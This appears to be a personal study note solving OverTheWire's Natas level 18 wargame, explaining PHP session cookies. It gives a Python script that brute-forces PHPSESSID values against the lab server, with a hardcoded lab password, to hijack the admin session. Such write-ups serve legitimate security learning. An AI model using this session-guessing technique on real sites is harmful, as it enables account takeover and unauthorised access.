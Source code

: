 
2024-07-20 16:35

Source: #web #py

Tags: [[PHP]]

- PHP uses one of two methods to keep track of sessions. If cookies are enabled, like in our case, it uses them.
- If cookies are disabled, it uses the URL.
here in the source we are given `maxid` as `640`

```
import requests
username = 'natas18'
password = '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ'

url = 'http://natas18.natas.labs.overthewire.org/'
session = requests.Session()

for session_id in range(1,641):
    response = session.get(url,cookies = {"PHPSESSID": str(session_id)}, auth = (username,password))

    content = response.text

    if("You are an admin" in content):
        print("Got it!",session_id)
        print(content)
        break
    else:
        print("trying", session_id)
```
### TLDR
we gotta brute force all the possible session id's ranging from 1 to 640 and one of the session id is gotta be the admin session id

### References
https://www.youtube.com/watch?v=C9yxUTQLbRI

phpsessid - https://stackoverflow.com/questions/1370951/what-is-phpsessid